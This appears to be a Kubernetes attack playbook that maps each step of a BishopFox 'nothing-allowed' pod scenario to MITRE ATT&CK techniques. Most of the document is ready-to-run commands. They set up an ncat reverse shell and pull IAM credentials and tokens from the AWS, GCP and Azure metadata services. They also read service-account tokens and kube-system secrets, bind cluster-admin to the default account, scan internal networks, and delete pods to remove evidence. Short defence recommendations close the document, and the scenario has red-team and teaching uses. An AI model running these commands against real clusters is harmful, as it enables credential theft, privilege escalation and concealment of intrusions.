

# MITRE ATT&CK Mapping: Nothing-Allowed Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy restricted pod with no special privileges

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy standard container with no elevated privileges

**Pod Configuration:**
```yaml
spec:
  # No hostNetwork, hostPID, hostIPC, privileged, or hostPath
  containers:
  - name: nothing-allowed-pod
    image: ubuntu
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it nothing-allowed-exec-pod -- bash
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session inside restricted container

---

### Step 1.3: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch the shell
# Connection received
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl for command and control

---

## Phase 2: Cloud Metadata Exploitation

### Step 2.1: Query AWS metadata service (IMDSv1)

**Commands:**
```bash
# Test access to metadata service
curl http://169.254.169.254/latest/meta-data

# Get user-data (may contain credentials or cluster info)
curl http://169.254.169.254/latest/user-data

# List IAM role
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Get IAM credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
```

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query AWS EC2 metadata service for IAM role credentials
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Obtain valid AWS IAM credentials from instance metadata

---

### Step 2.2: Query AWS metadata service (IMDSv2)

**Commands:**
```bash
# Get session token for IMDSv2
TOKEN=\"$(curl --silent -X PUT -H \"X-aws-ec2-metadata-token-ttl-seconds: 600\" http://169.254.169.254/latest/api/token)\"

# Query metadata using token
curl --silent -H \"X-aws-ec2-metadata-token: $TOKEN\" \"http://169.254.169.254/latest/meta-data\"

# Get IAM credentials with IMDSv2
curl --silent -H \"X-aws-ec2-metadata-token: $TOKEN\" \"http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE]\"
```

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query IMDSv2 for credentials using session token

---

### Step 2.3: Deploy AWS CLI pod and escalate privileges

**Commands:**
```bash
# Create pod with AWS CLI
cat > awscli-pod.yaml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-awscli-pod
spec:
  containers:
  - name: awscli
    image: amazon/aws-cli
    command: [ \"/bin/sh\", \"-c\", \"--\" ]
    args: [ \"while true; do sleep 30; done;\" ]
EOF

kubectl apply -f awscli-pod.yaml
kubectl exec -it nothing-allowed-awscli-pod -- bash

# Verify identity
aws sts get-caller-identity

# Recon AWS resources
aws eks describe-cluster --name [CLUSTER_NAME]
aws s3 ls
aws ec2 describe-instances
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Deploy pod with cloud CLI tools for easier exploitation
- **T1526** - Cloud Service Discovery
  - Enumerate AWS resources using stolen IAM credentials
- **T1580** - Cloud Infrastructure Discovery
  - Discover EKS cluster configuration and cloud infrastructure

---

### Step 2.4: Query GCP metadata service

**Commands:**
```bash
# Test access to GCP metadata
curl -H \"Metadata-Flavor: Google\" 'http://metadata/computeMetadata/v1/instance/'

# Get service account permissions
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes

# Get service account token
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query GCP metadata service for service account credentials and tokens

---

### Step 2.5: Deploy GCP Cloud SDK pod and escalate privileges

**Commands:**
```bash
# Create pod with gcloud
cat > gcloud-pod.yaml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-gcloud-pod
spec:
  containers:
  - name: gcloud
    image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
    command: [ \"/bin/sh\", \"-c\", \"--\" ]
    args: [ \"while true; do sleep 30; done;\" ]
EOF

kubectl apply -f gcloud-pod.yaml
kubectl exec -it nothing-allowed-gcloud-pod -- bash

# List GCS buckets
gsutil ls

# List objects in bucket
gsutil ls gs://[BUCKET_NAME]

# Read file from bucket
gsutil cat gs://[BUCKET_NAME]/secrets.txt
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Deploy pod with GCP cloud SDK for exploitation
- **T1530** - Data from Cloud Storage
  - Access GCS buckets using node's service account credentials
- **T1526** - Cloud Service Discovery
  - Enumerate GCP resources and storage buckets

---

### Step 2.6: Query Azure metadata service

**Commands:**
```bash
# Test access to Azure metadata
curl -H Metadata:true \"http://169.254.169.254/metadata/instance?api-version=2020-10-01\" | jq .

# Get managed identity token
curl -H Metadata:true \"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/\" | jq .
```

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query Azure metadata service for managed identity OAuth tokens

---

### Step 2.7: Deploy Azure CLI pod and escalate privileges

**Commands:**
```bash
# Create pod with Azure CLI
cat > azurecli-pod.yaml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-azurecli-pod
spec:
  containers:
  - name: azurecli
    image: mcr.microsoft.com/azure-cli
    command: [ \"/bin/sh\", \"-c\", \"--\" ]
    args: [ \"while true; do sleep 30; done;\" ]
EOF

kubectl apply -f azurecli-pod.yaml
kubectl exec -it nothing-allowed-azurecli-pod -- bash

# Login as managed identity
az login -i

# Recon Azure resources
az storage account list
az aks list
az identity list
az role assignment list
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Deploy pod with Azure CLI for exploitation
- **T1526** - Cloud Service Discovery
  - Enumerate Azure resources using managed identity
- **T1087.004** - Account Discovery: Cloud Account
  - List Azure identities and role assignments

---

## Phase 3: Kubernetes Service Account Exploitation

### Step 3.1: Check mounted service account token

**Commands:**
```bash
# Check if service account token is mounted
ls -la /var/run/secrets/kubernetes.io/serviceaccount/

# View token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# View namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
```

**MITRE Techniques:**
- **T1552.007** - Unsecured Credentials: Container API
  - Access Kubernetes service account token mounted in pod

---

### Step 3.2: Install kubectl in pod

**Commands:**
```bash
apt update && apt -y install curl

# Download kubectl
curl -LO \"https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl\"

chmod +x ./kubectl
mv ./kubectl /usr/local/bin/kubectl
```

**MITRE Techniques:**
- **T1105** - Ingress Tool Transfer
  - Download kubectl binary to interact with Kubernetes API

---

### Step 3.3: Enumerate service account permissions

**Commands:**
```bash
# List all permissions
kubectl auth can-i --list

# Check specific permissions
kubectl auth can-i create pods
kubectl auth can-i get secrets -n kube-system
kubectl auth can-i create clusterrolebindings
```

**MITRE Techniques:**
- **T1613** - Container and Resource Discovery
  - Enumerate permissions granted to pod's service account
- **T1087.004** - Account Discovery: Cloud Account
  - Discover service account capabilities in Kubernetes cluster

---

### Step 3.4: Escalate privileges using overly permissive service account

**Commands:**
```bash
# If can create clusterrolebindings
kubectl create clusterrolebinding pwned --clusterrole=cluster-admin --serviceaccount=default:default

# If can create pods in kube-system
kubectl run pwned --image=ubuntu --namespace=kube-system -- sleep infinity

# If can get secrets
kubectl get secrets -n kube-system
kubectl get secret [SECRET_NAME] -n kube-system -o yaml
```

**MITRE Techniques:**
- **T1098.001** - Account Manipulation: Additional Cloud Credentials
  - Create clusterrolebinding to grant cluster-admin privileges
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use overly permissive service account for privilege escalation
- **T1552.007** - Unsecured Credentials: Container API
  - Access Kubernetes secrets using service account permissions

---

## Phase 4: Additional Attack Vectors

### Step 4.1: Test for anonymous-auth on kubelet

**Commands:**
```bash
# Test kubelet read-only port (10255)
curl http://[NODE_IP]:10255/pods

# Test kubelet API (10250) with anonymous auth
curl -k https://[NODE_IP]:10250/pods
```

**MITRE Techniques:**
- **T1046** - Network Service Discovery
  - Scan for kubelet ports and anonymous-auth endpoints
- **T1613** - Container and Resource Discovery
  - Query kubelet API without authentication if anonymous-auth enabled

---

### Step 4.2: Test for anonymous-auth on kube-apiserver

**Commands:**
```bash
# Get Kubernetes API server endpoint
kubectl cluster-info

# Test anonymous access
curl -k https://[APISERVER_IP]:6443/api/v1/namespaces
```

**MITRE Techniques:**
- **T1613** - Container and Resource Discovery
  - Access Kubernetes API server without authentication if anonymous-auth enabled

---

### Step 4.3: Exploit known Kubernetes CVEs

**Example: CVE-2020-8558**
```bash
# Test for CVE-2020-8558 - localhost services accessible from pods
curl http://127.0.0.1:10250/pods
```

**MITRE Techniques:**
- **T1212** - Exploitation for Credential Access
  - Exploit known CVEs in Kubernetes to access credentials or escalate privileges
- **T1068** - Exploitation for Privilege Escalation
  - Exploit kernel or container runtime vulnerabilities for escape

---

### Step 4.4: Hunt for vulnerable internal services

**Commands:**
```bash
# Install network scanning tools
apt update && apt -y install nmap netcat curl

# Scan internal services
nmap -p- 10.0.0.0/8
nmap -p 5432,3306,6379,9200 10.96.0.0/12

# Test for common vulnerabilities
curl http://[SERVICE]:9200/_cat/indices  # Elasticsearch
curl http://[SERVICE]:6379/  # Redis
```

**MITRE Techniques:**
- **T1046** - Network Service Discovery
  - Scan internal cluster network for vulnerable services
- **T1190** - Exploit Public-Facing Application
  - Exploit vulnerabilities in cluster-internal services

---

## Cleanup

### Delete all created pods

**Commands:**
```bash
kubectl delete pod nothing-allowed-exec-pod
kubectl delete pod nothing-allowed-awscli-pod
kubectl delete pod nothing-allowed-gcloud-pod
kubectl delete pod nothing-allowed-azurecli-pod
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pods to clean up evidence

---

## Summary

### Key Attack Vectors (Priority Order)

1. **Cloud Metadata Service** - Highest priority, often provides IAM/service account credentials
   - AWS: Access IAM role credentials
   - GCP: Access service account tokens and GCS buckets
   - Azure: Access managed identity tokens
2. **Overly Permissive Service Account** - Check mounted token permissions
3. **Anonymous-auth** - Test kubelet and kube-apiserver for unauthenticated access
4. **Known Exploits** - CVEs in Kubernetes, container runtime, or kernel
5. **Vulnerable Internal Services** - Scan and exploit cluster-internal applications

### Why "Nothing-Allowed" Still Matters

Even without any special pod privileges, attackers can:
- Obtain cloud IAM credentials via metadata service
- Use those credentials to access cloud resources (S3, GCS, storage accounts)
- Escalate within Kubernetes if service account is overly permissive
- Exploit misconfigurations (anonymous-auth)
- Hunt for vulnerable services with different network visibility

### Configuration Details

```yaml
spec:
  # No special privileges granted
  hostNetwork: false
  hostPID: false
  hostIPC: false
  containers:
  - name: nothing-allowed
    securityContext:
      privileged: false
      capabilities:
        drop:
        - ALL
```

### Defense Recommendations

1. **Block metadata service access** - Use network policies or IMDSv2 with hop limit
2. **Minimal service account permissions** - Follow principle of least privilege
3. **Disable anonymous-auth** - On both kubelet and kube-apiserver
4. **Keep systems patched** - Regularly update Kubernetes, container runtime, and kernel
5. **Network segmentation** - Implement strict network policies between namespaces

### References

- [Attacking Kubernetes through Kubelet](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/)
- [Plundering GCP: Escalating Privileges in Google Cloud Platform](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
- [CVE-2020-8558 POC](https://github.com/tabbysable/POC-2020-8558)
- [Command and KubeCTL Talk](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
